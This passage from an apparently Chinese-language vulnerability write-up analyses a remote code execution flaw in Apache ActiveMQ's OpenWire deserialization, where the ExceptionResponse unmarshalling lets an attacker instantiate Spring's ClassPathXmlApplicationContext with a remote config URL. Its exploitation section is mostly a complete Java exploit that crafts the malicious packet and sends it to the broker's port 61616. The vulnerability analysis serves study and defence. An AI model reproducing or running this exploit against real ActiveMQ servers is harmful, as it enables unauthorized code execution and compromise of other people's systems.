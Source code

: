 ```java
    }
}
```

在 tightUnmarsalThrowable 方法中，最终触发到了 createThrowable 方法。

```java
protected Throwable tightUnmarsalThrowable(OpenWireFormat wireFormat, DataInput dataIn, BooleanStream bs) throws IOException {
    if (!bs.readBoolean()) {
        return null;
    } else {
        String clazz = this.tightUnmarshalString(dataIn, bs);
        String message = this.tightUnmarshalString(dataIn, bs);
        Throwable o = this.createThrowable(clazz, message);
```

class 和 message 都是来自于反序列化的结果。意味着我们能够调用任意类的 String 构造方法，刚好 ActiveMQ 内置了 Sping，配合 Spring 常用的一个利用类 org.springframework.context.support.ClassPathXmlApplicationContext 来加载远程的配置文件，实现 SPEL 表达式注入代码执行 RCE。

# [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8 "漏洞利用")漏洞利用

正常场景下，生产者只能发送 Message 给 Broker。为了发送 Response 给 Broker 肯定需要修改下 ActiveMQ 的代码，所以大部分利用都是修改代码实现的。

为了更简单的实现利用，简单看了看 ActiveMQ 的协议，构造了下 Exploit。ExceptionResponseMarshaller 根据名字很容易判断出是 ExceptionResponse 的序列化/反序列化方法。

```java
public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
```

获取到 ExceptionResponse 的 DATA\_STRUCTURE\_TYPE 为 31，整体的协议比较简单，以下为攻击代码。

```java
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```
